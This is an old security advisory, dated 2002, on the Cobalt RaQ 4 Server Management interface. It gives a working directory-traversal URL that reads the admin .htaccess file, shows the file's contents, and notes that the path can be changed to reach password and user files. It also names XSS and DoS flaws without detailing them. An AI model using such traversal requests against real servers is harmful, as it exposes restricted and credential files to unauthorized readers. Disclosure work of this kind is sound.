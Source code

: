 INFO
----

    ------oOo----------------
    Cobalt RAQ 4 Server Management,
    Cross Site Scripting , Directory Traversal & DoS Vulnerabilities.
    ------oOo----------------


    Company Affected: www.cobalt.com & www.sun.com
    Version: RAQ 4 Server Management.
    Dowload: http://www.cobalt.com/products/raq/index.html
    OS Affected: Linux ALL, Solaris ALL.


    Author:

    ** Alex Hernandez <al3xhernandez@ureach.com>
    ** Thanks all the people from Spain and Argentina.
    ** Special Greets: White-B, Pablo S0r, Paco Spain, G.Maggiotti.


    ----=[Brief Description]=------------

    Traversal File configuration.


    Exploit:
    http://10.0.0.1:81/.cobalt/sysManage/../admin/.htaccess

    # Access file for /usr/admserv/html/.cobalt/admin/ (admin  )
    order allow,deny
    allow from all
    require user admin
    Authname CobaltRaQ
    Authtype Basic


    Directory by Default on server is: "/usr/admserv/html/.cobalt/admin" u
    can translate to any directory for capture restricted files or passwords
    and profiles the users.

    Vendor Response:
    The vendor was notified

    Posted List^s Security cobalt:
    cobalt-security@list.cobalt.com &
    jlovell@sun.com

    http://www.cobalt.com

    Alex Hernandez <al3xhernandez@ureach.com> (c) 2002.

    ------oOo------------------------------------